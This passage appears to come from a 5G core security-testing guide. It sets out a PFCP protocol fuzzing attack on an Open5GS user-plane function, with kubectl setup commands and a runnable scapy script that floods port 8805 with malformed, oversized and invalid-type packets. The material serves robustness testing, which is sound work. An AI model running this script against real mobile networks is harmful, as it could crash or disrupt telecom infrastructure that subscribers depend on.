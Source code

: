 ```yaml
  - to:
    - podSelector:
        matchLabels:
          role: control-plane
    ports:
    - protocol: UDP
      port: 8805
```

---

## Attack Scenario 4: PFCP Protocol Fuzzing Attack

### Objective
Send malformed PFCP messages to test UPF protocol parser robustness and identify crash conditions or memory corruption vulnerabilities.

### Attack Procedure

**Step 1: Deploy Fuzzing Environment**
```bash
kubectl run -n attacker pfcp-fuzzer \
  --image=python:3.11-slim \
  --restart=Never -- sleep 1d

kubectl exec -n attacker -it pfcp-fuzzer -- bash
pip install scapy psutil
```

**Step 2: PFCP Fuzzing Script**
```python
#!/usr/bin/env python3
from scapy.all import *
import socket
import time

def pfcp_fuzz():
    dst = "my5gc-upf-pfcp.open5gs.svc.cluster.local"
    dst_ip = socket.gethostbyname(dst)
    
    # Test 1: Malformed PFCP header
    malformed_pfcp = IP(dst=dst_ip)/UDP(dport=8805,sport=12345)/Raw(load=b"\x20\xFF\xFF\xFF\xFF\xFF\xFF\xFF")
    send(malformed_pfcp, count=100)
    
    # Test 2: Oversized packet
    oversized = IP(dst=dst_ip)/UDP(dport=8805,sport=12346)/Raw(load=b"\x20" + b"A"*65000)
    send(oversized, count=10)
    
    # Test 3: Invalid message types
    for msg_type in [0xFF, 0x00, 0x99]:
        invalid_msg = IP(dst=dst_ip)/UDP(dport=8805)/Raw(load=bytes([0x20, msg_type]) + b"\x00"*10)
        send(invalid_msg, count=50)

if __name__ == "__main__":
    pfcp_fuzz()
```

